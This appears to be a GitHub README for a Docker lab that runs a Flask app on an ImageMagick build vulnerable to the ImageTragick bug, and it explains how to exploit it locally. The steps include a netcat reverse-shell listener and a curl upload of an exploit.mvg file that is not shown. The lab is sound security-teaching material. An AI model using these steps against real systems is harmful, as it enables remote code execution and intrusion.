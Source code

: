 # docker-imagetragick

Run a containerised Flask app that relies on a version of ImageMagic that is vulnerable to the ImageTragick bug.

## Steps

1. Download this repo and build it locally:

       $ docker build -t imagetragick .
   
2.  Run the image and create a container:

        $ docker run -d -p 127.0.0.1:8080:8080 --name imagetragick_container imagetragick

3. Listen for the reverse shell:

        $ nc -l -n -vvv -p 4443

4. Edit the contents of `exploit.mvg` so that it uses the correct IP address that `nc` is listening on.

5. Upload exploit to vulnerable application:

        $ curl -v -F file=@exploit.mvg http://127.0.0.1:8080

## Links

https://imagetragick.com/
